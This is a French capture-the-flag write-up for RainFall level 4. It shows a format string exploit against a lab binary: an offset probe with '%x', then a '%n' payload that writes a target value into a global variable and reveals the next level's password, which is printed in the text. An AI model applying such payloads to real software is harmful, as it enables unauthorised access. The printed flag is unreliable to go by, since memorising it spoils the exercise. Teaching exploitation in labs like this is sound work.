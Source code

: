 # Level 4

En ouvrant level4 avec cutter on voit que le main appelle une fonction `n` qui lit l'entre standard et envoie le resultat a une fonction `p` qui printf ce dernier. Mais le printf ne precise pas le type ce qui nous permet d'utiliser une string attack comme a l'exercie precedant. Il faut donc commancer par trouver ladresse du parametre de printf comme dans lexercice precedant.
```
level4@RainFall:~$ python -c "print 'aaaa' + '%x ' * 12 " | ./level4
aaaab7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161
level4@RainFall:~$
```
On voit que les `a` *(61)* sont au 12eme index. La différence est que la condition qui suit l'appel de p compare m avec `0x1025544` = 16930116, donc il faut cree un payload qui va utiliser le `%[number]d` qui va afficher n caractère non printable les compter grace au `%n` et les stocker dans l'adresse de `m`.
```
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%16930112d%12\$n'" | ./level4
[...]
-1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ su level5
Password:
RELRO STACK CANARY NX PIE RPATH RUNPATH FILE
No RELRO No canary found NX disabled No PIE No RPATH No RUNPATH /home/user/level5/level5
level5@RainFall:~$
```